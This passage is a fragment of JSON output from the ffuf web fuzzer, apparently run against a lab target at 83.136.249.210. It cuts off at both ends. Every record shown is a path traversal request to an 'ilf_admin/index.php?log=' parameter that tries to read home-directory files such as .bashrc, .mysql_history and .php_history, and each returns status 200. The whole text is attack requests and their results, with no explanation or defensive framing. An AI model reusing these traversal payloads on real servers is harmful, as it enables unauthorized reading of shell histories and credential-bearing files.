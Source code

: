 charset=UTF-8","redirectlocation":"","scraper":{},"duration":45142105,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.bashrc","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5eb","FUZZ":"~/.gtkrc"},"position":235,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44884594,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.gtkrc","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ee","FUZZ":"~/.mysql_history"},"position":238,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43253066,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.mysql_history","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ec","FUZZ":"~/.login"},"position":236,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45074375,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.login","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5f0","FUZZ":"~/.php_history"},"position":240,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":42896803,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../../~/.php_history","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5ed","FUZZ":"~/.logout"},"position":237,"status":200,"length":2046,"words":150,"lines":102,"con